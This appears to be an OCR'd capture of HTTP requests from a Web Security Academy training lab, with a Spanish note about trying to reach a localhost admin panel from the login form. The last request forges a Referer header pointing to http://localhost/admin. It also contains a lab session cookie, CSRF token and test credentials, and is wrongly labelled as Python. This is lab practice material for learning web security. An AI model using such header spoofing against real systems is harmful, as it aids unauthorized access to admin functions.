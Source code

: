 ```python
Sec-Fetch-Dest: document
Referer: https://0a530029036032e782788d590019002a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9

csrf=KLgDHeWw71ctrZ1nvvZE0Fgqn9R8xEXz&username=P4IM0N&password=5656





GET /generate_204 HTTP/1.1
Host: www.gstatic.com
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
Connection: close






PROBANDO SALTAR AL SERVIDOR LOCALHOST DE ADMIN A TRAVES DE A SOLICITUD INICIADA EN EL PANEL DE LOGIN:



REQUEST:



POST /login HTTP/2
Host: 0a530029036032e782788d590019002a.web-security-academy.net
Cookie: session=mfkNFDKANPI7vZIGqiCxMvmnOTqfVgI3
Content-Length: 67
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a530029036032e782788d590019002a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9

csrf=KLgDHeWw71ctrZ1nvvZE0Fgqn9R8xEXz&username=P4IM0N&password=5656




```